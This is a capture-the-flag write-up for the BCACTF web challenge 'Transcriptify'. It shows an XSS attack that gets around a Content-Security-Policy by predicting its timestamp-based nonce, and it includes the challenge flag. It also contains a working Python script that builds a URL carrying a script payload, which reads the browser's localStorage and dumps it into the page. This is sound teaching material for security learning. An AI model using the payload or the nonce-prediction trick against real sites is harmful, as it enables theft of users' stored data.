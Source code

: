 **Flag**: `bcactf{g3t_BEtA_t3StERs_f6a71451d481a8}`

# Web/Transcriptify 

> **Description** : The secretaries at my school are tired of manually processing transcript requests, so they've built an app to the job for them. You would hope that anything handling private student info would be secure, right? I hope so too. \
> **Author** : `Thomas`

![index](./images/bcactf/transcript/index.png)

* This was an XSS challenge with a CSP bypass. The application is straightforward: it generates transcripts with some parameters. The parameter of interest is 'name', as it is directly passed into the HTML, leaving a risk of XSS.

* `Content-Security-Policy: default-src 'self'; script-src 'nonce-MTcxODA0MTEwMDAwMA=='`

* As we can see, we need to send a nonce value with the script tag to execute it, and the nonce value can be easily bypassed since it is the base64 of the timestamp of the request.

* According to the author, the flag was stored in local storage, so we have to include the flag in the PDF transcript URL and view the PDF to retrieve the flag.

* To meet these requirements, we created a script that can include the correct nonce in our request.

```python
import requests
from time import time
from base64 import b64encode
from urllib.parse import quote
import json

base_url = 'http://challs.bcactf.com:30147'

nonce = b64encode(str(int(time()+1)*1000).encode()).decode()
grade = {"name": "test", "grade": ["100", "A"]}
params = {"studentName": f"<script nonce='{nonce}'>document.querySelector('body').innerHTML=localStorage.getItem(localStorage.key(0))</script>", "courses": [grade]}
encoded_params = quote(json.dumps(params), safe='=&?')
url = f"{base_url}/pdftranscript?transcript={encoded_params}"
print(url)
```